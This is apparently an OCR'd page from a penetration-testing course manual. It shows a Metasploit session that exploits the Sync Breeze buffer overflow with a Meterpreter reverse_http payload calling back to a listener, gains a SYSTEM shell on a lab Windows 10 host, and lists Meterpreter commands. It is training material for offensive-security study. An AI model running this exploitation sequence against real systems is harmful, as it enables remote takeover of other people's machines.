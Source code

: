  msf5 exploit(windows/http/syncbreeze_bof) > set payload windows/meterpreter/reverse_ht
tp
payload => windows/meterpreter/reverse_http
msf5 exploit(windows/http/syncbreeze_bof) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(windows/http/syncbreeze_bof) > show options
...
Payload options (windows/meterpreter/reverse_http):
 Name Current Setting Required Description
 ---- --------------- -------- -----------
 EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, pro
 LHOST 10.11.0.4 yes The local listener hostname
 LPORT 4444 yes The local listener port
 LURI no The HTTP Path
...

 
 msf5 exploit(windows/http/syncbreeze_bof) > exploit
[*] Started HTTP reverse handler on http://10.11.0.4:4444
[*] Automatically detecting target...
[*] Target is 10.0.28
[*] Sending request...
[*] http://10.11.0.4:4444 handling request from 10.11.0.22; (UUID: ppowchzb) Staging x
[*] Meterpreter session 1 opened (10.11.0.4:4444 -> 10.11.0.22:50270)
meterpreter >
22.3.3 Experimenting with Meterpreter
meterpreter > help
Core Commands
=============
 Command Description
 ------- -----------
 ? Help menu
 background Backgrounds the current session
 bgkill Kills a background meterpreter script
 bglist Lists running background scripts
 bgrun Executes a meterpreter script as a background thread
 channel Displays information or control active channels
 close Closes a channel
 disable_unicode_encoding Disables encoding of unicode strings
 enable_unicode_encoding Enables encoding of unicode strings
 exit Terminate the meterpreter session
 get_timeouts Get the current session timeout values
 guid Get the session GUID
.....


 The best way to get to know the features of Meterpreter is to test them out. Let’s start with a few simple commands such as sysinfo and getuid:

meterpreter > sysinfo
Computer : CLIENT251
OS : Windows 10 (Build 16299).
Architecture : x86
System Language : en_US
Domain : corp
Logged On Users : 7
Meterpreter : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
